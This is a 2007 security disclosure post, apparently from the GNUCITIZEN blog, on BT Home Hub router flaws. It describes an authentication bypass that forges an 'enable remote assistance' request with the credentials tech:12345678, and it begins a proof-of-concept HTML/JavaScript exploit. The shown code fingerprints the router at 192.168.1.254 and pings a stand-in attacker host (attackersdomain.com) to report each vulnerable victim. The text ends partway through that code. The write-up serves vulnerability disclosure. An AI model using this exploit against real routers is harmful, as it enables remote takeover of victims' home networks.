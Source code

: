 ```yaml
---
title: BT Home Flub Pwnin The BT Home Hub (4)
author: adrian-pastor
date: Thu, 08 Nov 2007 11:33:13 GMT
template: this/views/post.jade
---
```


The following are the full details of the vulnerabilities we reported ([BID 25972](http://www.securityfocus.com/bid/25972)) to BT regarding their Home Hub router. We are going to have a brief detail on all POCs. If you have any suggestions, recommendations or corrections, do not hesitate to [contact us](http://www.gnucitizen.org/contact). _All the vulnerabilities and demo exploits discussed below have been tested on version `6.2.2.6` of the firmware, unless otherwise specified. Have fun and be responsible!_

### Exploit #1: Enable remote assistance and notify intruder when victim Home Hub is owned

This is the exploit [shown](/blog/bt-home-flub-pwnin-the-bt-home-hub) in our first demo video on which we forge the **enable remote assistance** request using an authentication bypass bug we found within the router firmware. Even if the victim has changed the password, the request will still go through no matter what. After successful exploitation, the attacker is notified via email with the URL (IP address) needed to control the Home Hub remotely.

In our exploit we set the credentials **tech:12345678**. Notice the double forward slash in the **action** attribute which allows us to bypass the authentication! The exploit Proof of Concept code follows:

    <html>
    <!-- index.html -->
    <head>
    <script>

    function redirect() {

           targetURL="http://www.google.com/search?ie=UTF-8&oe=UTF-8&sourceid=navclient&gfns=1&q=techno+viking";
           notifyURL="http://www.attackersdomain.com/notify.php";
           imgsrc = 'http://192.168.1.254/images/head_wave.gif';
           fingerprint_img = new Image();

           fingerprint_img.onerror = function (evt) {
                   ; //alert(this.src + " can't be loaded.");
           }

           // only notify attacker only if potential vulnerable Thomson
    Speedtouch / BT Homehub router found
           fingerprint_img.onload = function (evt) {
                   //alert(this.src + " is loaded.");
                   C=new Image();
                   C.src=notifyURL;
           }

           fingerprint_img.src = imgsrc;
           setTimeout("document.location=targetURL", 500);
    }
    </script>
    </head>
